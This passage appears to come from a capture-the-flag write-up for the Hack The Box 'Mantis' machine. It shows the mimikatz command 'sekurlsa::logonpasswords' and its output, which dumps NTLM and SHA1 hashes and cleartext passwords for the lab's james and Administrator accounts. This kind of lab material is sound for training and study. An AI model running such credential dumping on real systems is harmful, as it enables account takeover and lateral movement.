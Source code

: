 And use `sekurlsa::logonpasswords` to dump the credential details.
```
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 5179094 (00000000:004f06d6)
Session           : RemoteInteractive from 2
User Name         : James
Domain            : HTB
Logon Server      : MANTIS
Logon Time        : 10/27/2022 3:22:03 AM
SID               : S-1-5-21-4220043660-4019079961-2895681657-1103
        msv :
         [00000003] Primary
         * Username : james
         * Domain   : HTB
         * NTLM     : 71b5ea0a10d569ffac56d3b63684b3d2
         * SHA1     : d70dae0e69bc0463f865dd53b9b82dae1ad5a563
         [00010000] CredentialKeys
         * NTLM     : 71b5ea0a10d569ffac56d3b63684b3d2
         * SHA1     : d70dae0e69bc0463f865dd53b9b82dae1ad5a563
        tspkg :
        wdigest :
         * Username : james
         * Domain   : HTB
         * Password : J@m3s_P@ssW0rd!
        kerberos :
         * Username : James
         * Domain   : HTB.LOCAL
         * Password : (null)
        ssp :
        credman :

...

Authentication Id : 0 ; 387540 (00000000:0005e9d4)
Session           : Interactive from 0
User Name         : Administrator
Domain            : HTB
Logon Server      : MANTIS
Logon Time        : 10/27/2022 12:10:13 AM
SID               : S-1-5-21-4220043660-4019079961-2895681657-500
        msv :
         [00010000] CredentialKeys
         * NTLM     : 22140219fd9432e584a355e54b28ecbb
         * SHA1     : 52b58a1d1938754d04bbd292bd09b0acf254b199
         [00000003] Primary
         * Username : Administrator
         * Domain   : HTB
         * NTLM     : 22140219fd9432e584a355e54b28ecbb
         * SHA1     : 52b58a1d1938754d04bbd292bd09b0acf254b199
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : HTB
         * Password : @dm!n!$tr@t0r
        kerberos :
         * Username : Administrator
         * Domain   : htb.local
         * Password : @dm!n!$tr@t0r
        ssp :
        credman :

...
```